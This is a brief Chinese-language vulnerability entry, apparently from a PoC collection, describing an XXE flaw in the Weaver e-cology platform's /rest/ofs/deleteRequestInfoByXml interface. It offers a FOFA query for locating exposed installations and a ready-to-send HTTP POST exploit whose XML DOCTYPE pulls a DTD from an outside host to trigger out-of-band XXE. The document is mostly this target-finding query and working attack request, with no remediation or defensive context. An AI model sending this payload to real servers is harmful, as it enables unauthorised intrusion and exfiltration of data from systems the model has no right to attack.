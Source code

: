 # 泛微E-Cology系统接口deleteRequestInfoByXml存在XXE漏洞

泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology系统接口`/rest/ofs/deleteRequestInfoByXml` 存在XXE漏洞

## fofa

```java
app="泛微-协同商务系统"
```

## poc

```java
POST /rest/ofs/deleteRequestInfoByXml HTTP/1.1
Host: 
Content-Type: application/xml
Content-Length: 131

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE syscode SYSTEM "http://hsdtcwwetk.dgrh3.cn">
<M><syscode>&send;</syscode></M>
```

